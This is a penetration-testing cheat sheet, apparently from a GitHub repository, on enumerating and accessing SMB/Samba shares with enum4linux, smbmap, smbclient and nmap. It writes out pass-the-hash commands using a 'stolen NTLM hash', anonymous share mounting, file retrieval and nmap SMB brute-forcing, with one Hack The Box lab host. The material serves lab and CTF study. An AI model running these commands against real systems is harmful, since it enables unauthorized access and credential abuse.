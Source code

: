 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX

`enum4linux (TARGET IP)`

## NBTScan

```nbtscan (TARGET IP ADDRESS)```

## SMBMap
The basic syntax fo `smbmap` is as follows,
```smbmap -H (TARGET IP ADDRESS)```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
wnl8:/pwnt/windows/smbmap# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
SMBClient is very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samba (LINUX)/Windows shares.

Sometimes, it is required to specify the SMB version number using the `-m smb(n)` argument for the NT service to allow a connection.

### Target information
Attempt to mapp the share without any credentials,

```
root@attacker-machine:~# smbclient -N -L (TARGET IP)
```

### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N
```
To mount a share with an enumerated username,
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)
```
e.g.
```
root@attacker-machine:~# smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

### File Transfers
To get a file from the target server,
```
smb> get "filename with or without spaces.txt"`
```
## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,
```
root@attacker-machine:~# nmap --script smb-brute.nse -p445 (TARGET IP ADDRESS)
```
Another Nmap NSE script tyhat we can try will attempt to gather information on SMB NULL sessions and users as so,
```
root@attacker-machine:~# nmap -p 139.445 --script smb-enum-users (TARGET IP ADDRESS)

